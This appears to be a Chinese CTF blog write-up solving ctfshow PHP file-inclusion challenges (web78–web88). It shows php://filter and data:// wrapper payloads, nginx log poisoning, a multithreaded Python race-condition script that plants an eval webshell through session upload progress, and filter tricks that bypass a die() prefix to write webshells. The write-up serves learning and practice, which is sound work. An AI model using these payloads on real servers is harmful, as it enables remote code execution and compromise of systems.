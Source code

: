 ```yaml
---
layout: post
title: ctfshow-文件包含
date: 2021-02-09
tags: ["web"]
---
```


[toc]

## web78

没有任何过滤，直接php伪协议读取。

    file=php://filter/convert.base64-encode/resource=flag.php

## web79

过滤了php，无法使用伪协议，考虑使用data协议直接写入文件。

    file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==

注：上面的base64为`file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==`的编码。

## web80

又过滤了data，也没有办法写入文件了。此时考虑包含日志文件，直接getshell
先随便访问一个网站目录下不存在的文件，发现服务器是nginx。
[![](http://ltfa1l.top/wp-content/uploads/2021/02/wp_editor_md_6e3aaca4e500823c5597bf60fad75274.jpg)](wp_editor_md_6e3aaca4e500823c5597bf60fad75274.jpg)
搜一下nginx的日志文件在哪里，发现是在`/var/log/nginx/access.log`
那么我们抓包，在user-agent里面添加一串php代码：
[![](http://ltfa1l.top/wp-content/uploads/2021/02/wp_editor_md_bfc673885bbd691f3e7218921eb9a391.jpg)](wp_editor_md_bfc673885bbd691f3e7218921eb9a391.jpg)
查看日志文件：
[![](http://ltfa1l.top/wp-content/uploads/2021/02/wp_editor_md_6a55d3b7fe5a9f0ec1315e21e4d4f627.jpg)](wp_editor_md_6a55d3b7fe5a9f0ec1315e21e4d4f627.jpg)
这样一来就知道要读取的是fl0g.php了。重复以上操作，读取fl0g.php即可得到flag。

## web81

同上

## web82-86

过滤了'.'，所以没有办法读取日志文件了。
看[这篇文章](https://www.freebuf.com/vuls/202819.html)，讲得很好。
总结一下我学到的思路：
首先是要包含一个文件，文件里面必须要有恶意代码。
因此我们上传一个文件。方法是：我们自己上传一个文件，然后利用上文中提到的，若upload_progress功能开始，也意味着当浏览器向服务器上传一个文件时，php将会把此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中，值得注意的是session文件也是存放在服务器上的，一般存放在/tmp/session_+session_id这个文件上，因此我们在session中写入木马，然后包含这个文件就可以了。
但是如同上文中提到的，这个文件也是隔一段时间就会被删掉的，没有办法直接包含。
但是我们可以利用条件竞争：即我们在这个文件被删掉之前，开多线程同时读取和写入文件，从而达到包含这个文件的目的。
有的大佬们可以直接写脚本来做这个，但是我不是很会写这个脚本，因此把手动instruder的方法也写在了这里，后面再贴上脚本。
首先在vscode里面写这样的html：

    <html>
        <body>
            <form action="http://affcff0b-eae2-427d-af1f-26108f719048.chall.ctf.show:8080/" method="post" enctype="multipart/form-data">
                <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123"/>
                <input type="file" name="fileUpload"/>
                <input type="submit" value="上传文件">
            </form>
        </body>
    </html>

然后再解释一下这一段html代码：首先利用的是表单的上传文件。
注意两种Content-Type方式，其中multipart/form-data既可以上传文件等二进制数据，也可以上传表单键值对，最后转化成一条信息。
而x-www-form-urlencoded只能上传键值对，而且键值对都是间隔分开的，因此很明显我们选择multipart/form-data。
然后第一个input框，留给我们待会儿抓包修改的，注意就是name那个地方要填对，表明我们修改的是待会的session临时文件。
第二三个input框就是上传文件的。
然后把这个html在浏览器里面打开：
[![](http://ltfa1l.top/wp-content/uploads/2021/02/wp_editor_md_3a7c32d2186b1c32a42b4df39c958955.jpg)](wp_editor_md_3a7c32d2186b1c32a42b4df39c958955.jpg)
至于文件内容，随便，待会儿抓包了再改也行。
然后burp抓包这个上传的动作，直接放到instruder把，如图：
[![](http://ltfa1l.top/wp-content/uploads/2021/02/wp_editor_md_2338985d7116d4f1977912e98b15cdc9.jpg)](wp_editor_md_2338985d7116d4f1977912e98b15cdc9.jpg)
图里面的是我们要添加或者修改的，看好了。
首先cookie这里，这个session的id要和待会儿包含的文件名一致。
其次就是刚刚我们html里面写的那个value，给他加点无耻的php代码。
最后就是上传的那个文件，整大一些。
这就是我们上传的包，不急，不急着开始爆破，我们把包含文件的包写好之后两个一起爆破，就可以达到多线程的目的。
这是文件包含包：
[![](http://ltfa1l.top/wp-content/uploads/2021/02/wp_editor_md_df57c767908bf5de920a52b582d6d297.jpg)](wp_editor_md_df57c767908bf5de920a52b582d6d297.jpg)
一定要保证session_id是一样的。
两个包里面爆破的内容选的都是一些无关紧要的，然后两个包一起发，可以选大一点。
然后再文件包含的包里面就可以出flag了：
[![](http://ltfa1l.top/wp-content/uploads/2021/02/wp_editor_md_8d5c909665f5ec25cfbaef6895ac0366.jpg)](wp_editor_md_8d5c909665f5ec25cfbaef6895ac0366.jpg)
上面算是我自己能够理解的一个方法，下面我贴下大佬的脚本，原理是一样的，但是中间有一些细节我不是很懂，但是可以直接用：

    import io
    import requests
    import threading

    sessid = 'flag'
    data = {"cmd": "system('cat fl0g.php');"}
    url = "http://affcff0b-eae2-427d-af1f-26108f719048.chall.ctf.show:8080/"

    def write(session):
        while True:
            f = io.BytesIO(b'a' * 1024 * 50)
            resp = session.post(url,
                                data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'},
                                files={'file': ('tgao.txt', f)}, cookies={'PHPSESSID': sessid})

    def read(session):
        while True:
            resp = session.post(url+'?file=/tmp/sess_' + sessid,
                                data=data)
            if 'tgao.txt' in resp.text:
                print(resp.text)
                event.clear()
            else:
                pass

    if __name__ == "__main__":
        event = threading.Event()
        with requests.session() as session:
            for i in range(1, 30):
                threading.Thread(target=write, args=(session,)).start()

            for i in range(1, 30):
                threading.Thread(target=read, args=(session,)).start()
        event.set()

## web87

看题：
[![](http://ltfa1l.top/wp-content/uploads/2021/02/wp_editor_md_96922aa80cce4f14d8315bd8ee56b0d5.jpg)](wp_editor_md_96922aa80cce4f14d8315bd8ee56b0d5.jpg)
代码审计，发现最后一个file_put_contents是把前面的一个退出程序的php代码放在了content的前面，然后文件名经过url编码，因此前面的过滤基本没啥用。
很自然联想到[p神的文章](https://www.leavesongs.com/PENETRATION/php-filter-magic.html),绕过死亡exit。这里同理。

### 方法1 base64

用base64解码先绕过这个php代码。由于前面php代码`<?php die('大佬别秀了');?>`中只有phpdie六个字符是base64里面的字符，因此待会儿还得补充两个任意字符。然后传入编码后的木马：
[![](http://ltfa1l.top/wp-content/uploads/2021/02/wp_editor_md_389b5eb63cb5612d474f13f11485b6c0.jpg)](wp_editor_md_389b5eb63cb5612d474f13f11485b6c0.jpg)
因此content就是：
[![](http://ltfa1l.top/wp-content/uploads/2021/02/wp_editor_md_2755d5dff6da5235ffadd820b8ac62cc.jpg)](wp_editor_md_2755d5dff6da5235ffadd820b8ac62cc.jpg)
然后只需要在文件名处使用php过滤器就可以了。值得注意的是，url本身会解码一次，因此我们需要编码两次。
get处未经过url编码的payload为：

    file=php://filter/write=convert.base64-decode/resource=1.php

即将解码后的字符写入1.php。
url加密两次，传入file：
[![](http://ltfa1l.top/wp-content/uploads/2021/02/wp_editor_md_dad8d283c596392c51bb0b2c4df491b0.jpg)](wp_editor_md_dad8d283c596392c51bb0b2c4df491b0.jpg)
运行，访问网站目录下的1.php：
[![](http://ltfa1l.top/wp-content/uploads/2021/02/wp_editor_md_2515137a47b957d56cb5bb5778d89aa2.jpg)](wp_editor_md_2515137a47b957d56cb5bb5778d89aa2.jpg)
可以看到已经拿到了shell。上面的乱码明显是phpdie和我们加上的两个字符经过base64解码后的结果。

### 方法2 标签去除

前面的php代码实际上也是一段xml标签，所以我们可以先去除标签，然后再进行base64解码，这样就可以不用添加字符了。
[![](http://ltfa1l.top/wp-content/uploads/2021/02/wp_editor_md_198df6388516265afe44334d041500c8.jpg)](wp_editor_md_198df6388516265afe44334d041500c8.jpg)
编码写入content：
[![](http://ltfa1l.top/wp-content/uploads/2021/02/wp_editor_md_f32f3b73807ea5ab7775ba30173865a5.jpg)](wp_editor_md_f32f3b73807ea5ab7775ba30173865a5.jpg)
写入后访问2.php：
[![](http://ltfa1l.top/wp-content/uploads/2021/02/wp_editor_md_8afe7d9f72c08a9336ab063f3007cee6.jpg)](wp_editor_md_8afe7d9f72c08a9336ab063f3007cee6.jpg)
成功getshell.

### 方法3 rot13编码

在php过滤器里面编码写入的字符，前面的一段die的代码就会被编码，不会被执行。因此传入我们先解码一次的php代码：
[![](http://ltfa1l.top/wp-content/uploads/2021/02/wp_editor_md_d3026b6c13b0d26012f37caefe007884.jpg)](wp_editor_md_d3026b6c13b0d26012f37caefe007884.jpg)
然后照样，编码file:
[![](http://ltfa1l.top/wp-content/uploads/2021/02/wp_editor_md_e8d7207329ada490e56362861713cb02.jpg)](wp_editor_md_e8d7207329ada490e56362861713cb02.jpg)
然后写入文件：
[![](http://ltfa1l.top/wp-content/uploads/2021/02/wp_editor_md_ed7ddf7017f12d3f13886d2e93accdc2.jpg)](wp_editor_md_ed7ddf7017f12d3f13886d2e93accdc2.jpg)
成功getshell。

## web88

可以直接使用data流读取，然后由于过滤了=号，加空格直到没有=号即可。
[![](http://ltfa1l.top/wp-content/uploads/2021/02/wp_editor_md_2cd28a91624e20c932358c9ca7476f55.jpg)](wp_editor_md_2cd28a91624e20c932358c9ca7476f55.jpg)

## 后面的

暂时不会